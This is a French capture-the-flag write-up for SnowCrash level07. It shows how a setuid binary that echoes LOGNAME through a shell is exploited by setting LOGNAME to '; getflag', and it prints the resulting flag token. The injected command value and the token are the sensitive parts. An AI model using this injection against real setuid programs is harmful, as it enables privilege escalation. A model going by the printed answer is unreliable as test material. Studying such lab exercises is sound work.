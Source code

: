 # Level07
## Observations

Pour ce level, on retrouve un fichier binaire executable appelé `level07` dans le home directory.
Ce fichier, dispose d'un setuid bit `s`, ce qui segnifie que lorsque que je (groupe `level07`)
vais l'executer, je vais le faire en tant que propriétaire `flag07`

Comme dans les levels précédents, il s'agit ici d'injecter la commande `getflag`, lors
de l'execution du binaire.

Lorsque j'execute le binaire, j'obtiens:
```sh
level07@SnowCrash:~$ ./level07
level07
```

En utilisant la commande strings sur le binaire, je repère 2 lignes suspectes:
```
LOGNAME
/bin/echo %s
```

Sachant qu'à ce stade la variable d'environnement `LOGNAME`, vaut "level07", je
peux essayer de modifier l'environnement en lançant le binaire pour confirmer cela:
```sh
level07@SnowCrash:~$ env LOGNAME="toto" ./level07
toto
```

## Résolution

J'essaye dans un premier temps d'injecter directement la commande avec plusieurs techniques: 
```sh
level07@SnowCrash:~$ env LOGNAME="$(getflag)" ./level07
Check flag.Here is your token :
sh: 2: Syntax error: ")" unexpected
level07@SnowCrash:~$ env LOGNAME="`getflag`" ./level07
Check flag.Here is your token :
sh: 2: Syntax error: ")" unexpected
```

> **Note**: les '"' me permettent d'echapper au comportement de mon shell qui remplace
> ce qui se situe à l'interieur par le résultat de ma commande dans la session
> courante utilisateur `level07`.

A priori, ça ne marche pas comme ça. En regardant la ligne: `/bin/echo %s`, je pense
à une autre technique, en effet on peut chainer les commandes dans un shell,
avec des opérateurs comme '&' ou ';'. De plus echo peut marcher sans arguments.
Je decide donc de chainer la commande pour qu'elle ressemble à `/bin/echo; getflag`:

```sh
level07@SnowCrash:~$ env LOGNAME="; getflag" ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

Et voilà, j'ai mon flag, je peux passer au level suivant.
